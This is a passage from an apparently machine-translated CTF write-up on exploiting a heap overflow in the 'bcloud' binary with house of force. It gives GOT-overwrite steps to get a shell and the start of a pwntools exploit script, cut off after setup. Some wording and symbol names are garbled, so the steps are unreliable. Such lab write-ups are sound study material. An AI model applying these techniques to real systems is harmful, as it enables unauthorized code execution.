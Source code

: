 ```c
  return __readgsdword(0x14u) ^ v5;

}

```



When reading into an organization, given 64 bytes, the lower address of v2 is overwritten. At the same time, we can know that v2 is a chunk adjacent to the top chunk, and v2 is just adjacent to org. Since 32-bit programs are generally used in 32-bit programs, the content stored in v2 is almost To a large extent, it is not `\x00` , so when you execute the strcpy function to copy content to v2, it is likely to overwrite the top chunk. This is where the vulnerability lies.


### Use


1. Use the vulnerability at the initialization name to leak the base address of the heap. .
2. Use the house of force to allocate the top chunk to the global 0esize-8 of 0x0804B0A0. When the memory is applied again, it returns the memory at the noteize address, so that we can control the size of all the notes and the corresponding addresses.
3. Modify the size of the first three notes to 16, and modify the pointer to free@got, atoni@got, atoni@got
4. Change free@got to puts@plt.
5. Leak the atoi address.
6. Modify another atoi got item to the system address again to get the shell.


The specific script is as follows


```python

from pwn import *

context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

if args['DEBUG']:

    context.log_level = 'debug'

context.binary = "./bcloud"

bcloud = ELF (&quot;./ bcloud&quot;)
if args['REMOTE']:

    p = remote('127.0.0.1', 7777)

else:

    p = process("./bcloud")

log.info('PID: ' + str(proc.pidof(p)[0]))

libc = ELF('./libc.so.6')





def offset_bin_main_arena(idx):

    word_bytes = context.word_size / 8

    offset = 4  # lock

```